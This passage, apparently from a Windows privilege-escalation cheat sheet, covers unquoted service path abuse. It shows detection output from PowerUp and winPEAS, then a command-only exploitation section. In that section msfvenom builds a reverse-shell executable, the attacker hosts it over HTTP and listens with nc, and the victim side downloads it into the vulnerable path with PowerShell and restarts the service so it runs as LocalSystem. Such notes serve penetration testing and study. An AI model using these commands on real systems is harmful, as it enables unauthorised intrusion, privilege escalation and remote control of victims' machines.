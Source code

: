 #### Unquoted service paths

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for unquoted service paths...

ServiceName    : unquotedsvc
Path           : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
ModifiablePath : @{Permissions=AppendData/AddSubdirectory; ModifiablePath=C:\;IdentityReference=NT AUTHORITY\Authenticated Users}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>
CanRestart     : True

ServiceName    : unquotedsvc
Path           : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
ModifiablePath : @{Permissions=System.Object[]; ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>
CanRestart     : True
```

or

```
winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > Common.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd "C:\Program Files\Unquoted Path Service\"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Common.exe', '.\Common.exe')
sc start unquotedsvc
```

#### Hot potato
